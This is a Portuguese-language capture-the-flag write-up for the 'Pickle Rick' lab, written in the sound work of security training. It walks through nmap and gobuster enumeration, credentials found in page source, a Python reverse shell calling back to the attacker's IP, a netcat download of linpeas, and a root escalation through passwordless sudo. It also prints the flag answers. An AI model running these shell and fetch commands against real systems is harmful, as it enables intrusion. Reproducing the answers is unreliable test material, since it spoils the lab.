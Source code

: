 # Lab: Pickle Rick (Easy Mode)

## Capture The Flags (CTF):

1. **What is the first ingredient that Rick needs?** `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?** `1 jerry tear`
3. **What is the last and final ingredient?** `fleeb juice`

---

```
export IP=10.10.89.179
```
```
ip addr show tun0 # 10.8.32.62/16
```

---

## 1) Enumeração com Nmap
```bash
nmap -A $IP
```
**Resultados:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
**Fonte Inspecionada:** 
`http://10.10.89.179/` -> **Username:** `R1ckRul3s`

---

## 2) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```

**Diretórios e Arquivos Encontrados:**
`/assets/`
`/robots.txt` -> `Wubbalubbadubdub`
`/login.php` -> Username: `R1ckRul3s` , Password: `Wubbalubbadubdub`
`/portal.php` -> (INFO: Após Login!) -> `Command Panel: "ls", "less", "grep .", "grep -R ." -> (toda a info de todos os ficheiros)`


**Flags Identificadas:**
`Sup3rS3cretPickl3Ingred.txt:` `mr. meeseek hair` (INFO: FLAG!)
`clue.txt:` `Look around the file system for the other ingredient.`


**Comandos Não Permitidos:**
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

**Encontrado. Possível Codificação Base64:**
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

---

## 3) Decodificação Base64
```bash
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
**Resultado:**
`rabbit hole`

---

## 4) Verificação e Exploração Python
```bash
python3 -c "print('hello')" # Verificar se python3 está disponível
```

**Reverse Shell (Github Reverse Shell CheatSheet)**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.32.62",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

**Listener no Terminal:**
```bash
netcat -lnvp 9999
```

---

## 5) Estabilização de Shell
**Erro apresentado:**
`/bin/sh: 0: can't access tty; job control turned off`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Correção:**
```bash
export TERM=xterm
ls
```

---

## 6) Escalada de Privilégios
```bash
stabilize_shell3.sh
upload_file_nc.sh /opt/linpeas.sh
```

**Execução do Linpeas:**
```bash
nc -q 0 10.8.9.112 19934 > /dev/shm/lin
cd /dev/shm
ls # linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Identificação:**
`(ALL) NOPASSWD: ALL (INFO: Acesso total sem senha)`

**Escalação para Root:**
```bash
sudo bash
```

**Flags Encontradas:**
```bash
ls # 3rd.txt
cat 3rd.txt # feeb juice
```

**Exploração de Diretórios de Usuário:**
```bash
cd /home
ls # rick
cd rick/
ls # second ingredientes
cat * # 1 jerry tear
```
